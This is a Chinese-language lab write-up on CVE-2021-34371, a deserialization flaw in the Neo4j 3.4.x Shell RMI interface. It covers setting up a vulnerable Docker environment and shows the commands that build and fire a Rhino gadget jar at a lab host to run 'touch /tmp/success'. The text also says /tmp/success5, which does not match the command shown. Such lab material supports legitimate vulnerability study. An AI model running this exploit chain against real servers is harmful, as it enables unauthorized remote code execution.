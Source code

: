# Neo4j Shell Server 反序列化漏洞 CVE-2021-34371

## 漏洞描述

Neo4j是一个开源图数据库管理系统。

在Neo4j 3.4.18及以前，如果开启了Neo4j Shell接口，攻击者将可以通过RMI协议以未授权的身份调用任意方法，其中`setSessionVariable`方法存在反序列化漏洞。因为这个漏洞并非RMI反序列化，所以不受到Java版本的影响。

在Neo4j 3.5及之后的版本，Neo4j Shell被Cyber Shell替代。

参考链接：

- https://www.exploit-db.com/exploits/50170
- https://github.com/mozilla/rhino/issues/520

## 环境搭建

如果你使用Linux或OSX系统，可以执行如下命令启动一个Neo4j 3.4.18：

```
TARGET_IP=<your-ip> docker-compose up -d
```

其中，环境变量`TARGET_IP`需要制定靶场环境的IP地址。

如果你是Windows系统，请直接修改`docker-compose.yml`，指定`TARGET_IP`环境变量的值。

服务启动后，访问`http://your-ip:7474`即可查看到Web管理页面，但我们需要攻击的是其1337端口，这个端口是Neo4j Shell端口，使用RMI协议通信。

## 漏洞复现

使用[参考链接](https://www.exploit-db.com/exploits/50170)中的Java RMI客户端，集成基于Rhino的[Gadget](https://github.com/vulhub/vulhub/blob/master/neo4j/CVE-2021-34371/rhino_gadget)，发送RMI请求：

```
$ mvn install
$ cp target/rhino_gadget-1.0-SNAPSHOT-fatjar.jar ./
$ java -jar rhino_gadget-1.0-SNAPSHOT-fatjar.jar rmi://192.168.174.128:1337 "touch /tmp/success"
```

![image-20220226233047245](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202262330323.png)

可见，`touch /tmp/success5`已成功执行：

![image-20220226233111576](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202262331632.png)
